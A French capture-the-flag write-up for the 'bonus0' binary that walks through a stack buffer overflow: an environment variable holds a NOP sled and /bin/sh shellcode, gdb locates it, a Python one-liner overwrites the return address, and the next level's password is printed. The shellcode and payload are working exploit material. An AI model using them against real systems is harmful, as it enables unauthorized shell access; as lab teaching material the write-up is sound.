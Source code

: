 # Analyse du binaire

Le binaire bonus0 présente une vulnérabilité de type stack buffer overflow.

Nous injectons un shellcode dans une variable d’environnement, puis nous faisons déborder un buffer afin d’écraser une adresse de retour avec un retour dans le shellcode. Ce shellcode lance un shell (/bin/sh).

# preparation du payload

## Injection du Shellcode

On doit fair cela car dans GDB les adresse sont decale par rapport a une execution normal. Donc afin de facilite l'exploite nous la mettons dans la variable d'environement

On place un shellcode dans une variable d’environnement :

```bash 
export SHELLCODE=$(python -c 'print "\x90" * 1024 + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
```

## Reperage de l'adresse du shellcode

On utilise gdb pour afficher la pile et trouver l'adresse du shellcode :

```bash
gdb ./bonus0
(gdb) x/100s $esp
[…]
0xbffff4f1: "SHELLCODE=..."
[…]
```

## Construction du Payload

Le buffer vulnérable permet d’écrire un peu plus que prévu. On va :
- Remplir le début avec des caractères ("a"*20) pour atteindre l’adresse de retour.
- Sauter à l’intérieur du NOP sled avec une adresse comme 0xbffff5e9.

```bash
(python -c 'print "a" * 20' ; python -c 'import struct; print "b" * 9 + struct.pack("<I", 0xbffff5e9) + "b" * 7' ; cat) | ./bonus0
```
On adapte l’adresse (0xbffff5e9) selon ce qu’on trouve avec GDB (juste avant ou dans le NOP sled).

# Exploitation 

```bash
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```


